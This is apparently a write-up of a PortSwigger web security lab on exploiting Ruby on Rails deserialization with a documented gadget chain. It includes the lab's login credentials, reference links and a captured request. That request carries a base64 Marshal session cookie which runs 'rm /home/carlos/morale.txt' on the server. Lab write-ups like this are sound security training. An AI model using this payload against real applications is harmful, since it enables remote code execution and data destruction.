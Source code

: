 
# Exploiting Ruby deserialization using a documented gadget chain

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory.

You can log in to your own account using the following credentials: wiener:peter

Hint: Try searching for "ruby deserialization gadget chain" online.

---------------------------------------------

References: 

- https://portswigger.net/web-security/deserialization/exploiting

- https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html



![img](images/Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/1.png)

---------------------------------------------

First intercept a request after logging in:

![img](images/Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/2.png)


If we decode we can not read the object as it happens in other labs:



![img](images/Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/3.png)


At the end of this blog we have a script to generate a payload - https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html:



![img](images/Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/4.png)


It generates an error but the file is deleted:

```
GET /my-account HTTP/2
...
Cookie: session=BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==
...
```



![img](images/Exploiting%20Ruby%20deserialization%20using%20a%20documented%20gadget%20chain/5.png)